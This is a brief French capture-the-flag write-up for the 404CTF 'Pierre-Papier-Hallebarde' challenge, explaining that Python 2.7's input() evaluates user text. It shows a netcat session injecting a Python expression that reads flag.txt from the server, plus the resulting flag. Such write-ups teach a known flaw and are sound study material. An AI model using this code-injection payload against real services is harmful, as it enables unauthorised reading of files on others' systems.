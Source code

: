 ## Pierre-Papier-Hallebarde

### Description

L'objectif est de gagner à pierre-feuille-ciseaux contre un programme qui adapte ses coups en fonctions de ceux de son adversaire.
Autant dire qu'il va falloir ruser.

### Exploit

Le code source définit le choix de l'utilisateur comme ceci :
```python
choix_utilisateur = int(input("Choix ?\n> "))
```
Et l'en-tête du code nous indique qu'on utilise python2.7. A partir de là, [c'est gagné !](https://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html)

```bash
$ nc challenge.404ctf.fr 30806
Bienvenue sur pierre-papier-Hallebarde !
La pierre bat la Hallebarde, le papier bat la pierre et la Hallebarde bat le papier
Pour jouer entrez un chiffre entre 1 et 3 :
1 : pierre
2 : papier
3 : Hallebarde
Choix ?
> __import__('sys').stdout.write(open("flag.txt").readline())
404CTF{cH0iX_nUm3r0_4_v1c701r3}
```